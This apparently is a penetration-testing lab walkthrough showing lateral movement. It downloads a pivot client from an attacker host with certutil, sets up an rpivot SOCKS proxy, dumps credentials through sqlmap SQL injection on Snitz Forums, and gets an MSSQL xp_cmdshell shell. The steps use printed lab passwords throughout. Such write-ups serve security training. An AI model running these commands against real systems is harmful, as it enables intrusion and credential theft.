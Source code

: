 # Lateral Movement 1 - Forum & DB

- [Lateral Movement 1 - Forum & DB](#lateral-movement-1---forum--db)
  - [Neighbor discovery](#neighbor-discovery)
  - [Proxy using rpivot](#proxy-using-rpivot)
  - [Enumeration](#enumeration)
  - [10.1.3.1 - Gitlab / Jenkins](#10131---gitlab--jenkins)
  - [10.1.3.2 - Snitz Forums](#10132---snitz-forums)
  - [Getting a shell](#getting-a-shell)

----

## Neighbor discovery

On the Scientist machine, do a `arp` to discover the neighbour:

```
arp -a
```

![picture 28](images/6f3745a7e9de4b5df226dab4540ce0524b58902faa94351e73d9b9133e427b5a.png)  

<br/>

## Proxy using rpivot

On the attacker machine, first clone the repo:

```
git clone https://github.com/klsecservices/rpivot.git
```

Also download the rpivot Windows client executable:

```
cd /usr/share/rpivot/ && wget https://github.com/klsecservices/rpivot/releases/download/v1.0/client.exe
```

![picture 23](images/69e0242b39fb852b687d019571ff77e87b48682fc608be5661dfc5783cd8abcc.png)  

<br/>

Serve `client.exe` using python http server and download it from the Scientist machine:

```
# Attacker
python3 -m http.server 80
```

```
# Scientist machine
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

![picture 24](images/9cfcd47851566013075f1e860e8ebbac5825adcfee02864665e22016ba763e49.png)  


<br/>

On the attacker machine, launch a rpivot server:

```
python server.py --server-port 8080 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

Then on the Scientist machine, connect to the rpivot server:

```
client.exe --server-ip 192.168.100.11 --server-port 8080
```

![picture 25](images/7e53d48f497bcadb6162d0fa995054cc4027390e8dad4b9d52913e50588280fe.png)  

![picture 26](images/b6f3223437bec6aeca2571b4d4342092165aa8c602c00302bef65da249ee9eed.png)  

<br/>

Modify `/etc/proxychains.conf` to let it use SOCK4 proxy on port 9051:

![picture 27](images/9bbb14e76912c64a077fbfd3fd4a186cb211f6378387c6ec730ffa8f286d54e8.png)  

<br/>

## Enumeration

Use `proxychains` with `nmap` to enumerate the hosts discovered by `arp`:

```
proxychains nmap -Pn -sT 10.1.3.1-2 -p 22,139,80 --min-rate 10000
```

![picture 29](images/2092306e9323966b62b7ac4d2ad1c64b52854be08e9a1aba033c1036becfbb39.png)  

<br/>

## 10.1.3.1 - Gitlab / Jenkins

Refer to Path 1

<br/>

## 10.1.3.2 - Snitz Forums

Use firefox with foxyproxy pointing to SOCK4 proxy on tcp/9051:

![picture 30](images/7ebb48e1600dc3680de1b4655b5ea2004074b912773850b99196061f6e3ef86b.png)  

Use the obtained IIS credential:
`iisadmin` \ `Head!!S%$#@!`

![picture 31](images/4b0f1b05208ffcd5d1b5149b0b5ca5aa72bc4359deb8dab8f2a48be6d95692d1.png)  

![picture 32](images/d319517e43ca033bb25895c312302828afed15dbb337df1d1af0b5612c9b21be.png)  

* Web App Version:  Snitz Forums 2000 Version 3.1 SR4

<br/>

This particular version is known to have an SQL injection exploit:

- https://www.exploit-db.com/exploits/3321

<br/>

With the valid header, use `sqlmap` to exploit. First list the available databases:

![picture 33](images/ac442fee8d3237c60b03520385cccb7d3ffc8eb00fed062bb4c63df58a48a218.png)  


```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U --dbs
```

![picture 34](images/39c7b6a8694264f90257b215c952a13a6600b00f4de9f64567e683f15d811b55.png)  

<br/>

Check the tables in the DB `Sensitive-DB`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB --tables
```

![picture 35](images/256780fc91bceab6687128a4577a4185ffa818d5bd9508aeda0f5fe1e1ef8a71.png)  

<br/>

Check the table `Creds`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB -T Creds --dump --threads 10
```

![picture 37](images/20a9e291046b9086a8d36b358dfca3561ced043b454dfbb5e8c426ea1488a913.png)  

- Note that `sa` is the root user of MSSQL database.
  - `sa` / `SAAdmin!@#$%`

<br/>

## Getting a shell

First on the attacker machine, clone `MSDAT`:<br/>
https://github.com/quentinhardy/msdat

```
cd /usr/share && git clone https://github.com/quentinhardy/msdat.git
```

<br/>

Use `virtualenv` to run:

```
cd /usr/share/msdat
virtualenv --python=/usr/bin/python2 .
```

<br/>

Install the dependencies:

```
sudo apt install freetds-dev -y
pip install cython colorlog termcolor pymssql argparse
pip install argcomplete && sudo activate-global-python-argcomplete
```

<br/>

Use `msdat.py` to obtain a xpcmdshell:<br/>
(*Note: This weird command comes from the msdat.dit Github page; it is in fact re-enabling xpcmdshell.*)
```
proxychains python msdat.py xpcmdshell -s 10.1.3.2 -p 1433 -U sa -P 'SAAdmin!@#$%' --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

![picture 39](images/ddb862a847c7fe90d012306fc3f21f054553d714446573653a4b9527c339a4f6.png)  
  

<br/>



